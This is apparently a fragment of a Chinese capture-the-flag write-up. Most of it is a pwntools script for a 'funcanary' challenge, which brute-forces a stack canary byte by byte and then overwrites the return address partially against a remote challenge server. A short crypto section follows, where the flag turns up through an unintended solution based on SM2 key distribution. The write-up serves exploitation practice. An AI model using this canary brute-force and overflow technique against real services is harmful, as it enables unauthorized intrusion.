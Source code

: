 ```JSON
            print(a)
            if b"fun" in a:
                canary += chr(i)
                print("canary: " + canary)
                break

    # 64 8
    # 32 4
    # 16 2
    # b *(0x555555554000 + 0x1229)
    addr_base=0x0231
    addr = 0x5231
    addr2 = 0x5229
    # payload = 'A' * 0x68 + canary + 'A' * 12 + p32(addr)
    for i in range(1024):
        addr=addr_base+(i%16)*0x1000
        payload = 'A' * 0x68 + canary + 'A' * 8 + p16(addr).decode("unicode_escape")
        p.send(payload)

        now = p.recv(1024)
        if b"flag" in now:
            print(now)
            pause()
    # p.interactive()

if __name__ == "__main__":
    mode = 0
    while True:
        if mode:
            p = process('./funcanary')

        else:
            p = remote('39.107.137.13',20940)
        try:
            pwn()
            p.interactive()
        except:
            p.close()
```

Crypto
======

- - - - - -

基于国密SM2算法的密钥密文分发
----------------

非预期：

跟着文档操作login，allkey，quantum，在search中能直接看到quantumStringServer的值，在check提交

最后在search中看到flag
